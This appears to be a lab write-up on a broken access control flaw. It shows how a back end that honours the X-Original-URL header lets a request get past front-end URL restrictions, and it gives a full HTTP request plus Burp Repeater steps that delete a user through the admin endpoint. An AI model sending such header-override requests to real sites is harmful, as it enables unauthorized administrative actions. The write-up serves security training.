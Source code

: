 ## Broken access control can lead to admin account takeover

#### Description
Some applications enforce access controls at the platform layer by restricting access to specific URLs and HTTP methods based on the user's role. For example an application might configure rules like the following:

DENY: POST,` /admin/deleteUser`, managers

This rule denies access to the POST method on the URL `/admin/deleteUser`, for users in the managers group. Various things can go wrong in this situation, leading to access control bypasses.

Some application frameworks support various non-standard HTTP headers that can be used to override the URL in the original request, such as `X-Original-URL` and `X-Rewrite-URL`. If a web site uses rigorous front-end controls to restrict access based on URL, but the application allows the URL to be overridden via a request header, then it might be possible to bypass the access controls using a request like the following:
```
POST / HTTP/1.1
X-Original-URL: /admin/deleteUser
You can see a full HTTP request can sent by an attcaker in-order to exploit the vulnurbility
```
```
GET /delete?username=carlos HTTP/1.1
Host: ac881fc61f2d6d3f80166598000a0060.web-security-academy.net
X-Original-URL: /admin
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64; rv:75.0) Gecko/20100101 Firefox/75.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://ac881fc61f2d6d3f80166598000a0060.web-security-academy.net/
Connection: close
Cookie: session=PZEti039Ndjxfya2anDNigFiMWv78pdZ
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0

```

#### Steps to reproduce

1. Try to load `/admin` and observe that you get blocked. 
2. Observe that the response is very plain, suggesting it may originate from a front-end system. 
3. Send the request to Burp Repeater. Change the URL in the request line to `/` and add the HTTP header `X-Original-URL: /invalid`.        Observe that theapplication returns a "not found" response. This indicates that the back-end system is processing the URL from the `X  Original-URL` header. 
4. Change the value of the `X-Original-URL` header to `/admin`. Observe that you can now access the admin page. 
5. To delete the user carlos, add `?username=carlos` to the real query string, and change the `X-Original-URL` path to `/admin/delete`.

#### Impact 

**An attacker can bypass the authorization and abuse administrator functionality**
